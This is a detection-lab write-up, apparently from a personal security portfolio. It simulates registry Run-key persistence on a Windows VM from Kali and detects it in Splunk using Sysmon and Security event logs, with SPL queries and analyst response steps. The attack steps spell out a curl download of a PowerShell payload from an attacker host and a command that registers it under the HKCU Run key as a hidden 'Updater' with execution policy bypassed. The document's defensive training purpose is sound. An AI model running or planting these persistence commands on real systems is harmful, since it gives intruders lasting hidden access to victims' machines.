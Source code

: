 

# Detection Usecase 3 : Persistence via Registry keys


# Scenario Summary: 

An Attacker has attempted to logged in into the System by using credentials of a user and able to download a suspicious ps1 file,  
then runs a command to edit the registry and hide the malware in the run folder so that is get run after every time the System starts.  

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.
- The Attack was simulated by Kali Linux on Windows as follows: 

1) Attacker Login to Victim Machine via SSH and uploaded a PowerScript on it.  
```
ssh sshuser@192.168.0.103
```  
```
curl http://192.168.0.106/fileless.ps1 -o fileless.ps1
```
2) Then executed the following command to hide the ps1 in run folder of the System.  
```
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"  
-Name "Updater" -Value "powershell -nop -w hidden -ExecutionPolicy Bypass  
-File C:\Users\sshuser\fileless.ps1"
``` 
3) Now every time the user logged in the System the attacker will get the shell access of the System, hence gain persistence on the System.  

![attack](<logs/Screenshot_2025-06-05_07_27_47 copy.png>)


 ******************************

- Tools Used:  
    - Attacking Tool : PowerShell Script, SSH, regedit, msfvenom, metasploit
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon


 ******************************
 ******************************

# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                      |
|---------------------------|-----------|----------------------------------|
| WinEventLog : Security    | 4624      | Successful logon                 |
| WinEventLog : Sysmon      | 1         | Process Creation                 |
| WinEventLog : Sysmon      | 3         | Network Connection Detected      |
| WinEventLog : Sysmon      | 11        | File Creation                    |
| WinEventLog : Sysmon      | 13        | Registry Value Modification      |


 ******************************
 ******************************

# Detection Query / Logic:
```spl 
- Search - Logged in attempt
index=* EventCode=3 OR EventCode=4624 LogonType=8 OR LogonType=10
```
```spl 
- Search - Command Execution or file creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search - Registry Modification
index=* EventCode=13
```

 ******************************
 ******************************

# Sample Alert Screenshot

1) User has logged in.  

![login1](<logs/Screenshot 2025-06-05 162503.png>)  
![login2](<logs/Screenshot 2025-06-05 162520.png>)  
![get system32](<logs/Screenshot 2025-06-05 162552.png>)


2) Then attempted to download a ps1 file.  

![download](<logs/Screenshot 2025-06-05 162748.png>)  
![created](<logs/Screenshot 2025-06-05 162802.png>)

3) After that runs powershell and execute registry modification.  

![pswh1](<logs/Screenshot 2025-06-05 162838.png>)  
![pwsh2](<logs/Screenshot 2025-06-05 162957.png>)

4) The modification can also be seen using Autoruns tool.  

![autoruns](<logs/Screenshot 2025-06-05 170740.png>)


 ******************************
 ******************************

# Analyst Notes / Recommendations:

1) What Should an Analyst do ? 

-> If there is Registry Modification, then :
    -> Confirm the Detection - Verify logs and see the indicators(e.g.,Event ID : 4625(unsuccessful login), 11(File Creation), 1(Process Creation/Command Execution)), try to correlate it with unexpected login or unusual user behavior.  
    -> Contain the Threat - Isolate the system and stop if any malicious processes is running and disable the user account involved in the attack.  
    -> used tool like Autoruns or manually delete the unusual Registry Modification.  
    -> Delete any downloaded files, check for scheduled tasks or any lateral movement activity.  
    -> Collect the Evidence.  
    -> Report & Document the incident & Improve.  

# Detection Status

 -> Successfully Detected.  
